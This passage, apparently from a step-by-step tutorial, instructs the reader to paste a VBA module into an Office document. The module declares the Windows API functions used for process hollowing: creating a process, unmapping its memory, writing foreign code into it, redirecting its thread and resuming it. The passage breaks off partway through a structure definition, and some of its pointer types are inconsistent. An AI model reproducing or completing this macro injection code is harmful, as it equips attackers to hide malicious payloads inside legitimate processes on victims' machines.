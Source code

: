 2. **Insert a New Module:** Insert a new module and paste the following VBA code into the module.

```
Private Declare PtrSafe Function CreateProcess Lib "kernel32" Alias "CreateProcessA" ( _
    ByVal lpApplicationName As String, _
    ByVal lpCommandLine As String, _
    ByVal lpProcessAttributes As Long, _
    ByVal lpThreadAttributes As Long, _
    ByVal bInheritHandles As Long, _
    ByVal dwCreationFlags As Long, _
    ByVal lpEnvironment As Long, _
    ByVal lpCurrentDirectory As String, _
    ByVal lpStartupInfo As Long, _
    ByVal lpProcessInformation As Long) As Long

Private Declare PtrSafe Function NtUnmapViewOfSection Lib "ntdll.dll" ( _
    ByVal hProcess As LongPtr, _
    ByVal baseAddress As LongPtr) As Long

Private Declare PtrSafe Function VirtualAllocEx Lib "kernel32" ( _
    ByVal hProcess As LongPtr, _
    ByVal lpAddress As LongPtr, _
    ByVal dwSize As Long, _
    ByVal flAllocationType As Long, _
    ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function WriteProcessMemory Lib "kernel32" ( _
    ByVal hProcess As LongPtr, _
    ByVal lpBaseAddress As LongPtr, _
    ByVal lpBuffer As LongPtr, _
    ByVal nSize As Long, _
    ByRef lpNumberOfBytesWritten As Long) As Long

Private Declare PtrSafe Function GetThreadContext Lib "kernel32" ( _
    ByVal hThread As LongPtr, _
    ByRef lpContext As CONTEXT) As Long

Private Declare PtrSafe Function SetThreadContext Lib "kernel32" ( _
    ByVal hThread As LongPtr, _
    ByRef lpContext As CONTEXT) As Long

Private Declare PtrSafe Function ResumeThread Lib "kernel32" ( _
    ByVal hThread As LongPtr) As Long

Private Declare PtrSafe Function CloseHandle Lib "kernel32" ( _
    ByVal hObject As LongPtr) As Long

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
```